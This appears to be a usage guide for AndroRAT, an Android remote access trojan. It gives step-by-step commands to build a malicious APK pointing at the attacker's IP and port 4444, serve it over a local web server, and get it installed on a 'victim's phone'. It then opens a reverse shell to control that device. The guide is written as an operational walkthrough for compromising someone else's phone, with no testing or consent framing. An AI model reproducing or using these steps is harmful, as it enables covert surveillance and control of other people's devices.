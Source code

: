# AndroRAT
-----------------------------------------------------------------------
These following commands are only applicable in python version >=3.9
-----------------------------------------------------------------------
1. Open terminal in the same directory and run the following command.
   "**py androRAT.py --build -i 192.168.1.10 -p 4444 -o name_of_app.apk**". 
   (Here, replace the ip "192.168.1.10" with your computer's local ip, also replaces
   the "name_of_app.apk" with your desired name of the app).
    
2. Now run the command "**py -m http.server 8000**".
    (It will start a server on your computer at port 8000).

3. Open browser of victim's phone and go to the address "**192.168.110:8000**".
    (Again  replace the ip "192.168.1.10" with your computer **local ip**).

4. Now download the apk file that you had created with your desired name and install. 
    (Keep running the app in the background.)

5. Now open another terminal in the same directory and run the following command.
    "**py androRAT.py --shell -i 192.168.1.10 -p 4444**".
     (Don't forget to replace the ip)

6. Done! now you will be connected with the victim's phone.
   Simply run command "help" to explore the operations that you can perform in victim's phone.
-----------------------------------------------------------------------
*Note*
-----------------------------------------------------------------------
1.  Do remember, in above commands use your own local ip, you just have to replace it with mine.
2. You can use any port that you want, but better to use **4444**.
3. Also, check the requirements.txt file to install some python modules.
   (To install type: **pip install _name of the module_**)
-----------------------------------------------------------------------
If you have any problem then contact me:
Email ID: **codingdrift18@gmail.com**
